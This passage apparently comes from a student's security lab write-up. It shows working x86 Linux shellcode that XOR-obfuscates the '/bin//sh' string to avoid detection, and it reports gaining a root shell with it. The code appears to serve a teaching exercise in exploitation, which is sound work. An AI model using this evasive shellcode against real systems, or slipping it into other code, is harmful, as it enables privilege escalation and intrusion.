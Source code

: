 After replacing the appropriate portions of the shellcode with the instructions that I wrote, the final shellcode that I used was:
<br>

```
"\x31\xc0"                  /* xorl    %eax,%eax              */
"\x50"                      /* pushl   %eax                   */
"\xba\x91\x91\xcd\xd6"      /* movl    $0xd6cd9191, %edx      */
"\x81\xf2\xbe\xbe\xbe\xbe"  /* xorl    $0xbebebebe, %edx      */
"\x52"                      /* pushl   %edx                   */
"\xba\x91\xdc\xd7\xd0"      /* movl    $0xd0d7dc91, %edx	  */
"\x81\xf2\xbe\xbe\xbe\xbe"  /* xorl    $0xbebebebe, %edx      */
"\x52"                      /* pushl   %edx                   */
"\x89\xe3"                  /* movl    %esp,%ebx              */
"\x50"                      /* pushl   %eax                   */
"\x53"                      /* pushl   %ebx                   */
"\x89\xe1"                  /* movl    %esp,%ecx              */
"\x99"                      /* cdql                           */
"\xb0\x0b"                  /* movb    $0x0b,%al              */
"\xcd\x80"                  /* int     $0x80                  */
```

Using the above obfuscated shellcode that has no hardcoded `"/bin/sh"`, I was able to obtain a root shell:

<img src="task5_screenshot.png" width="800">

*Figure.9 Screenshot of root shell obtained using obfuscated shellcode*

The code that I used for the exploit in this task can be found in *obfuscated_exploit.c*.
